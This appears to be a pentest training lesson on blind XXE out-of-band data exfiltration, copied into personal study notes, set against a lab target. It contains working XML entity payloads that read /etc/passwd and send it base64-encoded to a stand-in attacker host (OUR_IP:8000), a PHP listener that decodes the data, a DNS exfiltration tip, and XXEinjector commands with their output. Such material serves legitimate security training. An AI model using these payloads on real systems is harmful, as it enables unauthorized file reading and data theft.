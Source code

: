 # Blind Data Exfiltration

In the previous section, we saw an example of a blind XXE vulnerability, where we did not receive any output containing any of our XML input entities. As the web server was displaying PHP runtime errors, we could use this flaw to read the content of files from the displayed errors. In this section, we will see how we can get the content of files in a completely blind situation, where we neither get the output of any of the XML entities nor do we get any PHP errors displayed.

## Out-of-band Data Exfiltration

If we try to repeat any of the methods with the exercise we find at `/blind`, we will quickly notice that none of them seem to work, as we have no way to have anything printed on the web application response. For such cases, we can utilize a method known as `Out-of-band (OOB) Data Exfiltration`, which is often used in similar blind cases with many web attacks, like blind SQL injections, blind command injections, blind XSS, and of course, blind XXE. Both the [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/course/preview/cross-site-scripting-xss) and the [Whitebox Pentesting 101: Command Injections](https://academy.hackthebox.com/course/preview/whitebox-pentesting-101-command-injection) modules discussed similar attacks, and here we will utilize a similar attack, with slight modifications to fit our XXE vulnerability.

In our previous attacks, we utilized an `out-of-band` attack since we hosted the DTD file in our machine and made the web application connect to us (hence out-of-band). So, our attack this time will be pretty similar, with one significant difference. Instead of having the web application output our `file` entity to a specific XML entity, we will make the web application send a web request to our web server with the content of the file we are reading.

To do so, we can first use a parameter entity for the content of the file we are reading while utilizing PHP filter to base64 encode it. Then, we will create another external parameter entity and reference it to our IP, and place the `file` parameter value as part of the URL being requested over HTTP, as follows:

Code: xml

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

If, for example, the file we want to read had the content of `XXE_SAMPLE_DATA`, then the `file` parameter would hold its base64 encoded data (`WFhFX1NBTVBMRV9EQVRB`). When the XML tries to reference the external `oob` parameter from our machine, it will request `http://OUR_IP:8000/?content=WFhFX1NBTVBMRV9EQVRB`. Finally, we can decode the `WFhFX1NBTVBMRV9EQVRB` string to get the content of the file. We can even write a simple PHP script that automatically detects the encoded file content, decodes it, and outputs it to the terminal:

Code: php

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

So, we will first write the above PHP code to `index.php`, and then start a PHP server on port `8000`, as follows:

mylesnieman@htb[/htb]`$ vi index.php # here we write the above PHP code $ php -S 0.0.0.0:8000  PHP 7.4.3 Development Server (http://0.0.0.0:8000) started`

Now, to initiate our attack, we can use a similar payload to the one we used in the error-based attack, and simply add `<root>&content;</root>`, which is needed to reference our entity and have it send the request to our machine with the file content:

Code: xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

Then, we can send our request to the web application:![blind_request](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_blind_request.jpg)

Finally, we can go back to our terminal, and we will see that we did indeed get the request and its decoded content:

```shell-session
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

**Tip:** In addition to storing our base64 encoded data as a parameter to our URL, we may utilize `DNS OOB Exfiltration` by placing the encoded data as a sub-domain for our URL (e.g. `ENCODEDTEXT.our.website.com`), and then use a tool like `tcpdump` to capture any incoming traffic and decode the sub-domain string to get the data. Granted, this method is more advanced and requires more effort to exfiltrate data through.

## Automated OOB Exfiltration

Although in some instances we may have to use the manual method we learned above, in many other cases, we can automate the process of blind XXE data exfiltration with tools. One such tool is [XXEinjector](https://github.com/enjoiz/XXEinjector). This tool supports most of the tricks we learned in this module, including basic XXE, CDATA source exfiltration, error-based XXE, and blind OOB XXE.

To use this tool for automated OOB exfiltration, we can first clone the tool to our machine, as follows:

mylesnieman@htb[/htb]`$ git clone https://github.com/enjoiz/XXEinjector.git  Cloning into 'XXEinjector'... ...SNIP...`

Once we have the tool, we can copy the HTTP request from Burp and write it to a file for the tool to use. We should not include the full XML data, only the first line, and write `XXEINJECT` after it as a position locator for the tool:

Code: http

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Now, we can run the tool with the `--host`/`--httpport` flags being our IP and port, the `--file` flag being the file we wrote above, and the `--path` flag being the file we want to read. We will also select the `--oob=http` and `--phpfilter` flags to repeat the OOB attack we did above, as follows:

mylesnieman@htb[/htb]`$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter  ...SNIP... [+] Sending request with malicious XML. [+] Responding with XML for: /etc/passwd [+] Retrieved data:`

We see that the tool did not directly print the data. This is because we are base64 encoding the data, so it does not get printed. In any case, all exfiltrated files get stored in the `Logs` folder under the tool, and we can find our file there:

mylesnieman@htb[/htb]`$ cat Logs/10.129.201.94/etc/passwd.log   root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin ...SNIP..`

Try to use the tool to repeat other XXE methods 


WOW that was complicated, so basically you need to save the request from burp, put XXEINJECT wherever you want to try injecting, and then do it, then you have to look in /Logs for what you want

![[Pasted image 20240530103305.png]]
![[Pasted image 20240530103326.png]]
![[Pasted image 20240530103342.png]]